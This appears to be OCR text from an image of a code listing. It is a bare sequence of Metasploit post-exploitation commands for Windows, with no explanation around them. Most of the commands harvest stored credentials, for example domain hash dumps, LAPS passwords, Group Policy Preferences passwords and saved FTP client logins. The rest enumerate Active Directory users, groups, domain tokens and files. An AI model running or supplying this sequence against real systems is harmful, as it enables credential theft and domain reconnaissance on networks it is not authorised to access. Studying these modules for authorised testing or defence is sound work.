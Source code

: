 run post/windows/gather/credentials/avira_password

run post/windows/gather/enum_ad_managedby_groups

run post/windows/gather/credentials/bulletproof_ftp

run post/windows/gather/enum_ad_to_wordlist

run post/windows/gather/credentials/comodo

run post/windows/gather/enum_ad_user_comments

run post/windows/gather/credentials/coolnovo

run post/windows/gather/enum_ad_users

run post/windows/gather/credentials/coreftp

run post/windows/gather/credentials/digsby

run post/windows/gather/credentials/domain_hashdump

run post/windows/gather/credentials/dynazip_log

run post/windows/gather/credentials/dyndns

run post/windows/gather/enum_computers

run post/windows/gather/credentials/enum_cred_store

run post/windows/gather/enum_db

run post/windows/gather/credentials/enum_laps

run post/windows/gather/credentials/enum_picasa_pwds

run post/windows/gather/credentials/epo_sql

run post/windows/gather/enum_domain

run post/windows/gather/credentials/filezilla_server

run post/windows/gather/enum_domain_group_users

run post/windows/gather/credentials/flashfxp

run post/windows/gather/enum_domain_tokens

run post/windows/gather/credentials/flock

run post/windows/gather/enum_domain_users

run post/windows/gather/credentials/ftpnavigator

run post/windows/gather/enum_domains

run post/windows/gather/credentials/ftpx

run post/windows/gather/enum_emet

run post/windows/gather/credentials/gadugadu

run post/windows/gather/enum_files

run post/windows/gather/credentials/gpp
